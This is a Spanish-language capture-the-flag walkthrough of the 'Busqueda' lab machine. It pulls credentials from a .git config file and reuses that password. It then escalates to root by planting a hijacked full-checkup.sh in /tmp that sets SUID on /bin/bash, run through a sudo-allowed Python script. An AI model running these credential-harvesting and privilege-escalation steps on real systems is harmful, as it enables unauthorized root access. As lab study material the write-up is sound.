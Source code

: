 #filehijacking

Listamos todos los archivos con [[ls]] usamos `ls la` y vemos el directorio *.git* entramos con [[cd]] usando el comando `cd .git` y luego listamos con `ls` para ver el archivo *config* que lo vamos a abrir con [[cat]] usando `cat config`
![[Busqueda39.png]]

http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
Vemos estas credenciales: ``cody:jh1usoih2bkjaspwe92``

La contraseña *jh1usoih2bkjaspwe92* la vamos a reutilizar para el usuario *svc*

Ahora vamos a listar los permisos de [[sudo]] con `sudo -l`
![[Busqueda24.png]]
Nos dice que podemos utilizar el siguiente binario como root

```
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Si ejecutamos el binario vemos que tenemos parametros que podemos utilizar
Cuando usamos el full-checkup `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` nos dice "Sometings went wrong"

![[Busqueda41.png]]


![[Busqueda42.png]]
![[Busqueda43.png]]

Pero si nos vamos a directorio */opt/scripts* donde dice que esta el *system-checkup* y se ejecuta
Asi que viendo los archivos del directorio con [[ls]] vemos que tenemos un full-checkup.sh

Sacamos la conclusion de que la opcion de *full-checkup.sh* se ejecuta archivos que tengan ese nombre y buscando el archivo en el directorio actual de trabajo. Por lo tanto vamos a hacer un [[File hijacking]]

### [[File hijacking]]

Vamos a ir a la carpeta /tmp usando `cd /tmp` y creamos un archivo con [[nano]] usando `nano full-checkup.sh`. Y al archivo le vamos a poner el siguiente contenido

```
#!/bin/sh
chmod u+s /bin/bash
```
Esto lo hacemos para hacer que sea [[SUID]]
![[Busqueda45.png]]

Ahora le damos permisos de ejecucion al archivo con [[chmod]] usando `chmod +x full-checkup.sh`
![[Busqueda46.png]]

Solamente nos queda ejecutar nuevamente el binario `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` y ejecutamos la bash con privilegios usando `bash -p`. Y listo ya somos root y podemos catear la flag
![[Busqueda49.png]]
![[Busqueda50.png]]